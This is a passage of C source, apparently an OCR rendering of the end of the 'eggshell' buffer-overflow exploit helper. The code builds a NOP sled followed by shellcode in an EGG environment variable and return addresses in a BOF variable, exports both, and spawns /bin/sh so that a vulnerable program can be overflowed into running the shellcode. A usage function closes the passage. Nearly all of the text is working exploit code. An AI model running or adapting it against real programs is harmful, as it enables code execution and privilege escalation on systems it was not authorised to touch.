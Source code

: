 ```
        *(addr_ptr++) = addr;

    ptr = egg;
    for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
        m = (n + align) % NOP_SIZE;
        *(ptr++) = nop[m];
    }

    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    bof[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';

    memcpy(egg,"EGG=",4);
    putenv(egg);

    memcpy(bof,"BOF=",4);
    putenv(bof);
    system("/bin/sh");
}

void usage(void) {
    (void)fprintf(stderr,
        "usage: eggshell [-a ] [-b ] [-e ] [-o ]\n");
}
```